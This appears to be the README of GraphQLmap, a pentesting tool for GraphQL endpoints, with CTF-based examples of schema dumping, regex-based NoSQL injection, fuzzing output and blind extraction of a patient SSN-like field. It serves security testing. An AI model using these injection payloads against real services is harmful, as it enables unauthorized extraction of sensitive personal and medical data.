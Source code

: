 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.

Features :
- Dump a GraphQL schema
- Interact with a GraphQL endpoint
- Execute GraphQL queries
- Autocomplete queries
- NoSQL injection inside a GraphQL field
- SQL injection inside a GraphQL field
- GraphQL field fuzzing


## Install

```
$ git clone github.com/swisskyrepo/GraphQLmap
$ python graphqlmap.py                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]]

optional arguments:
  -h, --help      show this help message and exit
  -u URL          URL to query : example.com/graphql?query={}
  -v [VERBOSITY]  Enable verbosity
```


## Examples

:warning: Examples are based on several CTF challenges from HIP2019.


Use `dump` to dump the GraphQL schema, this function will automaticly populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/MvgKCTD5zTwHRkqnWMfUAFiCN)

```powershell
GraphQLmap > dump                     
============= [SCHEMA] ===============
Query                                 
        doctor: email (String!),      
        doctors: options (JSON!),     
        patients:                     
        patient: id (ID!),            
        allrendezvous:                
        rendezvous: id (ID!),         
Doctor                                
        id:                           
        firstName:                    
        lastName:                       
        specialty:                    
        patients: 
        rendezvous: 
        email:      
        password: 
[...]
```

Write a GraphQL request to execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/JdgVALJwVK6BJXwRAELUIBUil)

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/4JGKwT6PunFzh9OwGm9v0rSgu)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
```

